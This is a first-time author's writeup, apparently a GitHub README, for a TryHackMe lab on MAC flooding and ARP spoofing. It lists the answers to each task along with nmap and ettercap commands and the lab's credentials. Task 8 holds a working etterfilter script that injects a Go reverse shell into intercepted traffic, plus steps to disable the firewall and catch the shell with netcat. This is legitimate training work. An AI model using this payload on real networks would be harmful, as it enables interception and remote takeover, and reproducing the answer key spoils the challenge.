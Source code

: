 # L2-MAC-Flooding-ARP-Spoofing
 <b> Tryhackme  L2 MAC Flooding &amp; ARP Spoofing writeup </b>
  
 <b> TASK 2 </b> <br>
  <b> Note The admin user is in the sudo group. I suggest using the root user to complete this room <br>
      sudo su (password : Layer2)</b><br>
  
  Q.1    Now, can you (re)gain access?(Yay/Nay).<br>
  Ans.   Yea <br>
  <b>TASK 3 </b><br>
  Q. 1 What is your IP address? <br>
  <b>  ip address show eth1 </b><br>
  Ans. 192.168.12.66 <br>
  Q. 2 What's the network's CIDR prefix? <br>
  Ans. /24  <br>
  Q. 4 How many other live hosts are there? <br>
  <b>  nmap -sn 192.168.12.66/24 </b> <br>
  Ans. 2 <br>
  Q. 5 What's the hostname of the first host (lowest IP address) you've found? <br>
  Ans. alice <br>
   <b>TASK 4 </b> <br>
  Q. 1 Can you see any traffic from those hosts? (Yay/Nay) <br>
  Ans. yea <br>
  Q. 2 Who keeps sending packets to eve? <br>
  Ans. bob <br>
  Q. 3 What type of packets are sent? <br>
  Ans. icmp <br>
    <b>hint</b> for Q 3 & 4 see fig <br>
    <img src="task4.png" alt="tcpdump.pcap"><br>
  Q. 4 What's the size of their data section? (bytes) <br>
  Ans. 666 <br>
   <b> TASK 5 </b><br>
  Q. 1 What kind of packets is Alice continuously sending to Bob?  <br>
  Ans. icmp <br>
  Q. 2 What's the size of their data section? (bytes) <br>
  Ans. 1337           (same as Q 3 & 4 in task 4)<br> 
  <b>Task 6 </b><br>
  Q.1 Can ettercap establish a MITM in between Alice and Bob? (Yay/Nay) <br>
  Ans. nay <br>
  Q. 2 Would you expect a different result when attacking hosts without ARP packet validation enabled? (Yay/Na<br>
  Ans. yay <br>
   <b> TASk 7</b> <br>
    <b> Note : Use root user <br>
       sudo su   (password : Layer2) </b><br>
   Q. 1 Scan the network on eth1. Who's there? Enter their IP addresses in ascending order. <br>
   <b>nmap 192.168.12.0/24</b><br>
   Ans. 192.168.12.10, 192.168.12.20 <br>
    <img src="nmap_task7.png" alt="nmap 192.168.12.66/24"><br>
   Q. 2 Which machine has an open well-known port? <br>
   Ans. 192.168.12.20 <br>
   Q. 3 What is the port number? <br>
   Ans. 80 <br>
   Q. 4 Can you access the content behind the service from your current position? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 5 Can you see any meaningful traffic to or from that port passively sniffing on you interface eth1? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 6 Now launch the same ARP spoofing attack as in the previous task. Can you see some interesting traffic, now? (Nay/Yay) <br>
   Ans. Yay <br>
     To launch arp attack<b> ettercap -T -i eth1 -M arp</b><br>
     ettercap -T -i eth1 -M arp > myarp.txt  (read carefully Q 7,89,11,17 Ans found in myarp.txt)<br>
   Q. 7 Who is using that service? <br>
   Ans. alice <br>
   Q. 8 What's the hostname the requests are sent to? <br>
   Ans www.server.bob <br>
   <img src="task7_Q8.png" alt=""><br>
   Q. 9 Which file is being requested? <br>
   Ans. test.txt <br>
   Q. 10 What text is in the file?<br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/test.txt</b><br>
   Ans ok <br>
    <img src="task7 _Q10.png"><br>
   Q. 11 Which credentials are being used for authentication? (username:password) <br>
   Ans. admin:s3cr3t_P4zz <br>
   Q. 12 Now, stop the attack (by pressing q). What is ettercap doing in order to leave its man-in-the-middle position gracefully and undo the poisoning? <br>
   Ans. RE-ARPing the victims <br>
   Q. 13 Can you access the content behind that service, now, using the obtained credentials? (Nay/Yay) <br>
   Ans. Yay <br>
   Q. 14 What is the user.txt flag? <br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/user.txt </b><br>
   Ans. THM{..........}  <br>
   Q. 15 You should also have seen some  rather questionable kind of traffic. What kind of remote access (shell) does Alice have on the server? <br>
   Ans. reverse shell <br>
   Q. 16 What commands are being executed? Answer in the order they are being executed.<br>
   Ans. whoami, pwd, ls <br>
   <img src="command.png"><br>
   Q.17 Which of the listed files do you want? <br>
   Ans. root.txt <br>
   <img src="last_q.png"><br>
   <b>TASK 8 </b> <br>
   Q. 1 What is the root.txt flag? <br>
   Ans.  THM{........} <br>  
    <b> Read carefully each and every line in Task 8 module L2 MAC Flooding & ARP Spoofing on tryhackme</b><br>
    <b>Follow steps to find root flag</b><br>
    hint: follow these steps on ssh machine not on your local machine<br>
     step 1. copy and save in a whoami.ecf file  <br><br>
     <b> 
   if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
  
    </b><br>
    
    note: if this payload not work download whoami.ecf file from repo <br>
     
 
 step 2. compile source code with etterfilter<br>
  <b>etterfilter whoami.ecf -o whoami.ef</b><br>
  step 3. Disable firewall <br>
    <b>sudo ufw disable  (password: Layer2)</b><br>
  step 4. open one another ssh session and start netcat listener<br>
  hint: use same port in source code and netcat listener<br>
  <b>nc -nvlp 6666 & </b><br>
  step 5. Run ettercap <br>
  <b>sudo ettercap -T -i eth1 -M arp -F whoami.ef </b><br><br>
  A few seconds after executing this command, you should see  "Connection received on 192.168.12.20 " on netcat listerer<br>
  step 6. on netcat listener type "fg" to foreground listener<br>
  
  Enjoy revershell
  
  <img src="root_flag.png"><br>
  
      
      
      
      
      
      Thank you <br>
      this is my first writeup, if i made any mistake foregive me.
      if you have any questions connect with me on LinkedIn.(use tryhackme to get my LinkedIn Id).
      
      
      Ajeet Kumar
   
   

